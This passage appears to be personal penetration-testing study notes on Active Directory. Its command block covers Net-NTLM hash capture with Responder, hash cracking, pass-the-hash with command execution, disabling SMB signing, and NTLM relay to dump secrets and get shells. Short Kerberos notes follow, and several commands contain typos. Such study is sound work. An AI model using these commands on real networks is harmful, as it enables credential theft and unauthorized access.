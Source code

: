 ```shell

  # 06. Net-NTLM Capture Attack
  sudo Responder -I <interface>
  dir \\<attacker_ip>\test # From the target machine

  hashcat -m 5500 -a 3 <hash> <wordlist>
  johhn --format=netntlm --wordlist=<wordlist> <hash>

  hashcat -m 5600 -a 3 <hash> <wordlist>
  johhn --format=netntlmv2 --wordlist=<wordlist> <hash>

  # 07. Pass the Hash Attack (PTH) - only ntlm not net-ntlm
  nxc smb <ip> -u <username> -H <ntlm_hash_for_the_correct_user>
  nxc smb <ip> -u <username> -H <ntlm_hash_for_the_correct_user> --shares
  nxc smb <ip> -u <username> -H <ntlm_hash_for_the_correct_user> -X "<command>

  nxc smb <ip> -u <username_list> -H <ntlm_hash_not_net_ntlm_for_the_correct_user> # Hash spraying

  
  # 08. Net-NTLM Relay Attack

  Get-SmbServerConfiguration | Select EnableSMB1Protocol, EnableSMB2Protocol, RequireSecuritySignature
  gpedit.msc # can be edited and disabled here
  Set SmbClientConfiguration -RequireSecuritySignature $false
  Set SmbServerConfiguration -RequireSecuritySignature $false

  nxc smb <ip> --gen-relay-list <output_filename.txt>
  sudo ntlmrelayx.py --no-http-server -smb2support -t smb://<ip> -socks
  dir \\<attacker_ip>\test
  -- then we have the socks proxy connected
  proxychains lookupsid.py -no-pass -domain-sids <domain_name_without_dot>/<username>@<ip>»
  proxychains seretsdump.py -no-pass <domain_name_without_dot>/<username>@<ip>
  proxychains smbexec.py -no-pass <domain_name_without_dot>/<username>@<ip>
  
```

---

### Kerberos (https://www.youtube.com/watch?v=dQz3CMlVYNY&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn&index=5)

Authentication key agreement protocol withh a shared secret key, Wx509 digital certificates to authenticate but that uses public-key ccryptogrpahy, the central authority is the kdc (key distribution center), it does ephemeral session keys that protexts sessions

AS verifies the identity and then generates a TGT that  can be exhchanged for Service Tickets, TGS (Ticket Granting Server) offers Service Tickets by using the TGT, the Service TIckets allows the user the access

There are Principals, User (users), Server (services), Host (computer), upn, spn, hpn
